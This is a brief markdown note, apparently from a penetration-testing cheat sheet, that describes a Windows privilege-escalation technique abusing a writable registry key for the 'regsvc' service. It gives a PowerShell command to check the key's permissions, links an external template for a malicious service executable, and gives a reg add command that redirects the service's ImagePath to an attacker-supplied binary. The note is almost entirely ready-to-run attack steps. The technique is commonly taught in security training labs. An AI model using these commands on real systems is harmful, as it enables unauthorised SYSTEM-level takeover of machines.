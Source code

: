 # regsvc ACL privesc
Enumeration using PowerShell:
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsrv | fl
```
Check the output for 'NT AUTHORITY\INTERACTIVE' has 'Allow FullControl'<br>
Create a malicious service:<br>
https://github.com/sagishahar/scripts/blob/master/windows_service.c
Install the malicious executable:
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsrv /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```
